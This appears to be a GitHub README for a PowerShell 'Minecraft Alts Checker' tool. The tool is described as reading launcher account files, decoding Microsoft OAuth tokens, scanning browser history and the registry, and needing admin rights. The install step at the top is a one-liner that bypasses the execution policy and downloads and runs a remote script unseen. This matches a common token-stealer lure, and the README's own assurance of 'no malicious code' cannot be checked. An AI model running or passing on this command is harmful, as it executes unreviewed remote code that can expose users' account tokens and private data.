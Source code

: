 - **`powershell -Command "Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-Expression (Invoke-RestMethod 'https://raw.githubusercontent.com/OnlyDehBest/alts-checker/main/alts-checker.ps1')"`**

**🛠️ Minecraft Alts Checker Tool**
A PowerShell utility for analyzing Minecraft accounts stored locally by various launchers, with JWT token decoding capabilities.

🔍 **Features**
 - 🕵️‍♂️ **Account Analysis**
   - Multi-Launcher Support:
      - TLauncher
      - Official Minecraft Launcher
      - MultiMC
      - Badlion Client
      - Lunar Client
   - Microsoft OAuth Token Detection (`accessToken/id_token`)
   - JWT Token Decoding with detailed claims inspection
   - Account Type Identification (Premium/Cracked)

🔎 **Forensic Capabilities**
   - Comprehensive File Parsing:
      - `%APPDATA%\.minecraft\TlauncherProfiles.json`
      - `%APPDATA%\.minecraft\launcher_accounts.json`
      - `%APPDATA%\.minecraft\usernamecache.json`
      - `%APPDATA%\.minecraft\usercache.json`
      - MultiMC `accounts.json`
      - Badlion Client `settings.json`
      - Lunar Client `accounts.json`
   - Advanced Config Search across multiple launcher directories
   - Deleted File Recovery using USN journal analysis
   - Registry Analysis for installed Minecraft applications

📋 **Account Information Display**
 - For each found account, shows:
      - Username/Display Name
      - UUID
      - Account type (Microsoft/Mojang/Cracked)
      - Microsoft token presence (✅/❌)
      - Premium status
      - Last accessed timestamp
      - Source launcher

🔐 **Advanced JWT Decoding**
 - Built-in `Decode-Jwt` function:
      - Accepts JWT tokens (`accessToken `or` id_token`)
      - Splits and base64-decodes the payload
      - Returns readable JSON claims in table format
      - Token expiry detection and validation
      - Detailed claims analysis (sub, iss, aud, etc.)

🖥️ **System Analysis**
 - Process Monitoring for Minecraft-related executables
      - Windows Event Log analysis
      - Browser History scanning (Chrome/Firefox)
      - Registry Inspection for installed launchers

📊 **Reporting**
 - Interactive HTML Report with filtering capabilities
      - CSV Export for all found accounts
      - Backup System for Minecraft configurations
      - Account Summary with statistics

🚀 **New in v3.0**
      - Beautiful animated ASCII logo with color effects
      - Enhanced account detection for more launchers
      - Comprehensive system analysis tools
      - Professional HTML reporting
      - Data export capabilities (CSV)
      - Configuration backup system
      - Windows event log analysis
      - Browser history scanning
      - Registry inspection
      - Deleted file recovery
      - Multi-language support

⚠️ **Requirements**
      - Windows PowerShell 5.1+
      - Administrative privileges (for full forensic capabilities)
      - Minecraft or alternative launcher installation

📜 **Legal Notice**
 - This tool is intended solely for:
      - Personal use
      - Debugging purposes
      - Educational research
      - Account recovery
      - Prohibited Uses:
      - Violating any terms of service
      - Accessing unauthorized accounts
      - Conducting illegal activities

**`The author disclaims all responsibility for misuse of this software.`**

🛡️ **Security Note**
 - The script:
      - Runs locally without external data transmission
      - Requests minimal necessary permissions
      - Provides transparent account inspection
      - Includes no malicious code
      - Respects user privacy

**`Not affiliated with Mojang Studios or Microsoft. Minecraft is a trademark of Mojang Studios.`**

👥 **Credits**
 - **`Developed by usnjournal. & onlynelchilling`**

   █████╗  ██╗     ████████╗███████╗     ██████╗██╗  ██╗███████╗ ██████╗██╗  ██╗███████╗██████╗ 
   ██╔══██╗██║     ╚══██╔══╝██╔════╝    ██╔════╝██║  ██║██╔════╝██╔════╝██║ ██╔╝██╔════╝██╔══██╗
   ███████║██║        ██║   ███████╗    ██║     ███████║█████╗  ██║     █████╔╝ █████╗  ██████╔╝
   ██╔══██║██║        ██║   ╚════██║    ██║     ██╔══██║██╔══╝  ██║     ██╔═██╗ ██╔══╝  ██╔══██╗
   ██║  ██║███████╗   ██║   ███████║    ╚██████╗██║  ██║███████║╚██████╗██║  ██╗███████╗██║  ██║
   ╚═╝  ╚═╝╚══════╝   ╚═╝   ╚══════╝     ╚═════╝╚═╝  ╚═╝ ╚═════╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
